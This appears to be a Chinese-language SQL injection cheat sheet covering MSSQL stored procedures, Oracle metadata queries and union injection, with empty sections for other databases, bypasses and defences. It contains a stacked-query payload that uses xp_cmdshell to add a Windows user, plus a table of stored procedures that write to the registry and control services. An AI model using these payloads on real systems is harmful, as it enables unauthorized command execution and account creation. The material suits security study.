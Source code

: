 ### MSSQL存储过程
```
select * from users where id=1; exec xp_cmdshell 'net user hacker hacker /add';
```

存储过程				|	说明
---						|	---
sp_addlogin			|	创建新的SQL Server登录，该登录允许用户使用SQL Server身份验证连接到SQL Server实例
sp_dropuser			|	从当前数据库删除数据库用户
xp_enumgroups			|	提供Microsoft Windows本地组列表或在指定的Windows域中定义全局组列表
xp_regwrite			|	未被公布的存储过程，写入注册表
xp_regread			|	读取注册表
xp_regdeletevalue	|	删除注册表
xp_dirtree			|	读取目录
sp_password			|	更改密码
xp_servicecontrol	|	停止或激活某服务

### 动态执行
exec函数

## Oracle
### 获取数据
#### 获取元数据
```
# 查看表空间
select tablespace_name from user_tablespaces;

# 查看所有表
select table_name from user_tables where rownum=1;

# 查看所有列
select column_name from user_tab_columns where table_name='tab_name';

# 查看所有用户
select username from all_users;
```

#### union查询
```
union select null,null,null from dual
```

### Oracle包

## PostgreSQL

## MongoDB

# SQL注入Bypass

# SQL注入防御之道
## 输入过滤

## 使用预编译

## 使用安全的存储过程
